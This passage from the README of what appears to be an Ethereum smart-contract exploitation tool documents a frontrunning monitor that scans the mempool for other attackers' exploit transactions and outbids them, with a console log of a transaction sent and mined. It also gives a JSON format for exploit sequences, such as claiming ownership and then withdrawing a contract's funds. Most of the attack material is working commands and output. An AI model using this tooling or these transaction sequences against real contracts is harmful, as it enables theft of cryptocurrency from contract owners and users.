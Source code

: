 ### Frontrunning

You can start the frontrunning monitor to listen for other hackers trying to exploit the honeypot.

Use `.frontrun()` to start listening for the exploit and when found, send a transaction with a higher gas price.

```console
>>> exploits[0].frontrun()
2019-07-22 11:22:26,285 - Scanning the mem pool for transactions... 
2019-07-22 11:22:45,369 - Found tx: 0xf6041abe6e547cea93e80a451fdf53e6bdae67820244246fde44098f91ce1c20 
2019-07-22 11:22:45,375 - Sending tx: {'to': '0xA586074FA4Fe3E546A132a16238abe37951D41fE', 'gasPrice': '0x2', 'data': '0xcf7a8965', 'gas': 30522, 'value': 1000000000000000000, 'nonce': 45} 
2019-07-22 11:22:45,380 - Waiting for 0xa73316daf806e7eef83d09e467c32ce5faa239c6eda3a270a8ce7a7aae48fb7e to be mined... 
2019-07-22 11:22:56,852 - Mined 
```

> "Oh, my God! The quarterback is toast!"

This works very well for some specially crafted [contracts](./contracts/) or some other vulnerable contracts, as long as you make sure frontrunning is in your favor.

### Load transactions from file

Instead of identifying the exploits with mythril, you can specify the list of exploits yourself.

Create a file that looks like this [exploits.json](./test/input-tx.json):

```json
[
    [
        {
            "name": "claimOwnership()",
            "input": "0x4e71e0c8",
            "value": "0xde0b6b3a7640000"
        },
        {
            "name": "retrieve()",
            "input": "0x2e64cec1",
            "value": "0x0"
        }
    ],
    [
        {
            "name": "claimOwnership()",
            "input": "0x4e71e0c8",
            "value": "0xde0b6b3a7640000"
        }
    ]
]
```

This one defines 2 exploits, the first one has 2 transactions and the second one only has 1 transaction. 
